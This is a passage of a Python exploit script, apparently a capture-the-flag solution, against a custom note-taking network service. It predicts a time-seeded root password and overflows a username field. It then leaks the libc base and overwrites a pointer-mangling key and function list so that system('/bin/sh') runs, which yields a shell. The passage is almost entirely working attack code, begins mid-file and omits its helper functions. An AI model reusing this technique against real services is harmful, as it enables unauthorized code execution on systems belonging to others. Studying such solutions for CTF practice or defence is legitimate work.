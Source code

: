 ```python
    s(payload)

def post_note(username,password,length,fd):
    payload = b'POST /note?username='+username+b'&password='+password+b'\n'
    payload += b'Stdout: '+str(fd).encode()+b'\n'
    payload += b'Content-Length: '+str(length).encode()+b'\n\n'
    s(payload)
    
def show(username,password,fd):
    payload = b'GET /show?username='+username+b'&password='+password+b'\n'
    payload += b'Stdout: '+str(fd).encode()+b'\n\n'
    s(payload)

def get_passwd():
    now_time = libc_dll.time(None)
    print(now_time)
    libc_dll.srand(now_time)
    rand_list = []
    for _ in range(13):
        while True:
            num = c_byte(libc_dll.rand())
            if num.value > 32 and num.value != 127:
                rand_list.append(hex(num.value)[2:].zfill(2))
                break
    root_password = bytes(bytearray.fromhex("".join(rand_list)))
    return root_password

setlocale(10)
register(b'test1',b'test',1,1024,10)
register(b'a'*0x98+b'\x01\x05',b'b'*0x10,1,1024,10)
register(b'test2',b'test',1,48,10)
register(b'test3',b'test',1000,944,10)
root1 = get_passwd()
init(10)

logoff(b'test3',b'test',10)
sleep(2)
root2 = get_passwd()
init(10)
logoff(b'root',root1,10)
show(b'root',root2,2)

#debu('b *$rebase(0x2d4e)')

libc_base = get_addr()-0x1f6ce0
print("libc_base : ",hex(libc_base))
func_list = libc_base-0x2910
print("func list : ",hex(func_list))
key = libc_base-0x2890
print("key : ",hex(key))
bin_sh = libc_base+0x1B51D2
print("bin sh : ",hex(bin_sh))
system_addr = libc_base+0x4ebd0
print("system : ",hex(system_addr))


post_note(b'root',root2,0x48,10)
s(b'a'*0x20+b'test2   :test         :0       \x00'+p64(key))
post_note(b'test2',b'test',0x18,10)
s(p64(0x0)+p64(rol(system_addr,0x11))+p64(bin_sh))

post_note(b'root',root2,0x48,10)
s(b'a'*0x20+b'test2   :test         :0       \x00'+p64(func_list))
```